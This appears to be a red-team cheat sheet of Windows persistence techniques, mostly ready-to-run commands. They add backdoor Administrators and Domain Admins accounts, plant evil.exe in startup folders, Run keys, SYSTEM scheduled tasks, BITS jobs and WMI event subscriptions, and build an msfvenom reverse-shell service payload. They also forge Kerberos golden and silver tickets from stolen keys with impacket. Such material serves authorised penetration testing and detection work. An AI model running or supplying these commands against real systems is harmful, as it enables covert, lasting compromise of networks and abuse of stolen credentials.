 # Windows persistence

## Things to remember
  *  Enumerate defenses and choose persistence mechanisms carefully
  *  These methods and more covered on [ired.team](https://www.ired.team/offensive-security/persistence) and [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence)

## Credentials
  *  Credentials are the easiest form of persistence
  *  Any form of credential can often be used
      *  Includes passwords, password hashes, kerberos tickets, etc.
      *  See [lateral movement techniques](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Lateral%20Movement/Credentials.md) for examples of code exec using credentials
   *  [Create a new user account](https://www.ired.team/offensive-security/persistence/t1136-create-account) and/or [dump credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)
       *  Local user on a domain controller is a domain user!
       *  Powershell [ActiveDirectory module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) not available on clients by default

```
net user hacker password /add
net localgroup Administrators hacker /add
net user hacker password /add /domain
net group "Domain Admins" hacker /add /domain
```

```
PS > New-LocalUser -Name 'hacker' -Password $(ConvertTo-SecureString -AsPlainText 'password' -Force)
PS > Add-LocalGroupMember -Group 'Administrators' -Member 'hacker'
PS > New-ADUser -Name 'hacker' -AccountPassword $(ConvertTo-SecureString -AsPlainText 'password' -Force)
PS > Add-ADGroupMember -Identity 'Domain Admins' -Members 'hacker'
```

## Startup folder/registry keys
  *  Programs in startup folders and [Run/RunOnce registry keys](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys) are executed on login
  *  [Elevated startup](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#startup-elevated) folder and [HKLM Run/RunOnce registry keys](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#registry-hklm) are executed by **all users** on login
      *  Path to file specified in HKLM registry key must be readable by victim
      *  Consider world-readable locations such as the hosts file directory

```
copy evil.exe C:\Users\bob\AppData\Roaming\Microsoft\Windows\"Start Menu"\Programs\Startup
copy evil.exe C:\ProgramData\Microsoft\Windows\"Start Menu"\Programs\Startup
```

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" -v ExampleName /t REG_SZ /d "C:\Users\bob\evil.exe"
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -v ExampleName /t REG_SZ /d "C:\Windows\System32\drivers\etc\evil.exe"
```

## [Scheduled tasks](https://www.ired.team/offensive-security/persistence/t1053-schtask)
  *  Scheduled tasks execute code on a set schedule (duh)
  *  [`schtasks`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) is capable of many different schedule types
      *  Every minute/hour/day/week/month, on login, at boot time, [and more](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create#parameters)!
  *  `powershell` also provides [cmdlets](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps) for [manipulating scheduled tasks](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#scheduled-tasks-user)

```
schtasks /create /sc minute /tn ExampleName /tr C:\Windows\Temp\evil.exe /ru SYSTEM
schtasks /create /sc onstart /tn ExampleName /tr C:\Windows\Temp\evil.exe /ru SYSTEM
```

```
PS > $action  = New-ScheduledTaskAction -Execute C:\Windows\Temp\evil.exe
PS > $trigger = New-ScheduledTaskTrigger -AtStartup
PS > $principal = New-ScheduledTaskPrincipal -UserId "SYSTEM"
PS > $settings = New-ScheduledTaskSettingsSet
PS > $task = New-ScheduledTask -Action $action -Trigger $trigger -Principal $principal -Settings $settings
PS > Register-ScheduledTask ExampleName -InputObject $task
```

## [Services](https://www.ired.team/offensive-security/persistence/t1035-service-execution)
  *  Windows services execute code as [long-running background processes](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
      *  Services can also be created to tell the [boot loader/kernel init](https://learn.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/writing-your-first-driver) to load a device driver!
  *  [Services](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/walkthrough-creating-a-windows-service-application-in-the-component-designer#set-service-status) must interface with the [Service Control Manager](https://learn.microsoft.com/en-us/windows/win32/services/service-control-manager) to avoid errors in event logs
      *  For `msfvenom` payloads the `exe-service` format provides this
  *  [`sc`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) utility or [`powershell cmdlet`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-service?view=powershell-7.4) for creating Windows services

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -f exe-service -o evil-service.exe
```

```
sc create ExampleName start=auto binpath="C:\Windows\Temp\evil-service.exe"
```

```
PS > New-Service -Name "ExampleName" -BinaryPathName "C:\Windows\Temp\evil-service.exe"
```

## [BITS Jobs](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#bits-jobs)
  *  [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/about-bits) jobs can execute a given command in response to certain events
      *  Failed commands are re-executed after a [delay](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-setminretrydelay) if the job is not completed/cancelled
      *  Payload [must return a non-zero value](https://trustedsec.com/blog/bits-persistence-for-script-kiddies) to indicate an error/failure in order to persist
      *  [Event notification flags](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-setnotifyflags), [timeout](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-setnoprogresstimeout), and invalid files to avoid transfer prior to persistence
  *  [`bitsadmin`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin) utility for configuring BITS jobs

```
bitsadmin /create ExampleName
bitsadmin /addfile ExampleName C:\invalid.1 C:\invalid.2
bitsadmin /setnoprogresstimeout ExampleName 0
bitsadmin /setminretrydelay ExampleName 60
bitsadmin /setnotifyflags ExampleName 2
bitsadmin /setnotifycmdline ExampleName cmd.exe "/c C:\Windows\Temp\evil.exe && fc.exe 2>NUL"
```

## [WMI event subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)
  *  WMI includes an [event notification system](https://learn.microsoft.com/en-us/windows/win32/wmisdk/receiving-a-wmi-event)
      *  [Filters](https://learn.microsoft.com/en-us/windows/win32/wmisdk/--eventfilter) define events to be notified of using [WMI Query Language (WQL)](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wql-sql-for-wmi)
      *  [Consumers](https://learn.microsoft.com/en-us/windows/win32/wmisdk/standard-consumer-classes) perform actions when events are consumed
      *  Filters and consumers are [bound together](https://learn.microsoft.com/en-us/windows/win32/wmisdk/binding-an-event-filter-with-a-logical-consumer) to perform actions based on event subscriptions
  *  Any event provided by WMI can be used as a persistence trigger... [get creative](https://learn.microsoft.com/en-us/windows/win32/wmisdk/querying-with-wql)!
  *  [`powershell cmdlets`](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/?view=powershell-7.4) for creating/binding event filters/consumers
      *  Also supports registering WMI objects on remote machines

// Execute evil.exe every minute
```
PS > $query = "SELECT * FROM __InstanceModificationEvent WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Second = 0"
PS > $filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property @{Name = "ExampleName"; EventNamespace = "root\cimv2"; QueryLanguage = "WQL"; Query = $query;}
PS > $consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property @{Name = "ExampleName"; ExecutablePath = "C:\Windows\Temp\evil.exe";}
PS > $binding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{Filter = [ref]$filter; Consumer = [ref]$consumer;}
```

## [Kerberos golden tickets ](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)
  *  Steal `krbtgt` keys and forge valid TGTs
      *  TGTs must be forged [for a valid user](https://blog.netwrix.com/2022/01/10/pacrequestorenforcement-and-kerberos-authentication/)
  *  `impacket` for forging TGTs using stolen keys
      *  Time sync required prior to forging

```
impacket-ticketer -aesKey [KRBTGT KEY] -domain-sid [SID] -domain example.local bob
export KRB5CCNAME=/path/to/ticket.ccache
```

## [Kerberos silver tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)
  *  Steal/crack service account keys and forge valid TGSs
      *  Still must be forged for a valid user
      *  Machine account hash for [ST to Windows OS services](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services) (WMI, CIFS, etc.)
  *  `impacket` for forging TGSs using stolen keys
      *  Time sync required prior to forging

```
impacket-ticketer -nthash [SERVICE ACCOUNT HASH] -spn [TARGET SPN] -domain-sid [SID] -domain example.local bob
export KRB5CCNAME=/path/to/ticket.ccache
```
